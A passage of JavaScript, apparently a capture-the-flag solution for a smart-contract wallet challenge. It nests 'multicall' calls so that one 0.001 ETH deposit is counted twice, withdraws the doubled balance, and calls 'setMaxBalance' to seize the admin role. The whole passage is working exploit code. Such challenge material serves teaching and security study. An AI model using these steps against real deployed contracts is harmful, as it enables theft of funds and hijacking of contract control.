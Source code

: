 ```
    }]
}, [[depositData]]);

nestedMulticallData = web3.eth.abi.encodeFunctionCall({
    name: 'multicall',
    type: 'function',
    inputs: [{
        type: 'bytes[]',
        name: 'data'
    }]
}, [[depositData, multicallData]]);

// This is where we deposit 0.001 ETH but the smart contract records it as 2 deposits (0.002 ETH)!
await web3.eth.sendTransaction({
    to: instance,
    from: player,
    value: "1000000000000000",
    data: nestedMulticallData
})

// Check to see if the contract recorded our deposit twice
// (await contract.balances(player)).toString()

// Withdraw all (should be 0.002) funds!
executeData = web3.eth.abi.encodeFunctionCall({
    name: 'execute',
    type: 'function',
    inputs: [{
        type: 'address',
        name: 'to'
    }, {
        type: 'uint256',
        name: 'value'
    }, {
        type: 'bytes',
        name: 'data'
    }]
}, [player, "2000000000000000", "0x"]);

await web3.eth.sendTransaction({
    to: instance,
    from: player,
    data: executeData
})

// Set ourselves as new admin by calling set max balance
smbData = web3.eth.abi.encodeFunctionCall({
    name: 'setMaxBalance',
    type: 'function',
    inputs: [{
        type: 'uint256',
        name: '_maxBalance'
    }]
}, ["<insert the uint value of our address here>"]);

await web3.eth.sendTransaction({
    to: instance,
    from: player,
    data: smbData
})
```
